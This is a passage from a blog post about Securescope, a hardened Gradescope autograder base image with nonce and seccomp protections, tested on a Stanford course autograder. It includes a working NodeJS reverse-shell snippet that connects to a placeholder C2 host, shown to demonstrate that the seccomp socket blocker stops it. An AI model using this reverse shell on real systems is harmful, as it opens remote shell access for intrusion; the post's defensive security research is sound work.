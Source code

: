 * Verify result integrity by having client code include a provided nonce in the `results.json` file that is only added after student code is run
    - This prevents student code from crashing client code to have its write to `run_autograder` take effect
* Use `seccomp` to prevent student code from using `inotify` kernel watchers to write to `results.json` after client code exits

These features are switched off by default such that client autograders can simply inherit their Docker base from Securescope without any change in functionality from using Gradescope's base Docker image. The security features can be toggled on using environment variables and minimal additions to client code.

When client code uses each of these features effectively, this addresses all of my above demonstrated attacks. **There are certainly remaining exploitable attack surfaces past these mitigations. True security is only possible when client code and student code are run by different processes with different user privileges.**

## Testing

Beyond testing Securescope with the example Python calculator assignment, I also subjected Securescope to a more real-world test. Having taken the *CS 255 Introduction to Cryptography* course at Stanford last year, I was able to get access to that course's autograder client code (with TA permission) for a project implementing a simple password manager in NodeJS. I then replaced the autograder base image with Securescope, turning on and integrating each of the security features into the autograder client code (which only took about 20 minutes). 

In addition to testing the official solution and my own submission from last year, I also collected submissions from a few friends who took the course this and last year and uploaded those to the Securescope-integrated autograder. Each submission yielded the same results on Securescope as when originally scored with the default autograder.

To validate the efficacy of Securescope's security features on this assignment, I rewrote some earlier attacks in NodeJS, then uploaded them to test:

```js
// reverse shell
(function() {
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(C2_PORT, C2_HOST, function() {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

The above attack was prevented by the `seccomp` IP socket syscall blocker:

![Seccomp IP socket syscall blocker preventing reverse shell attack](/blog/images/gradescope-seccomp-block-ip.png)
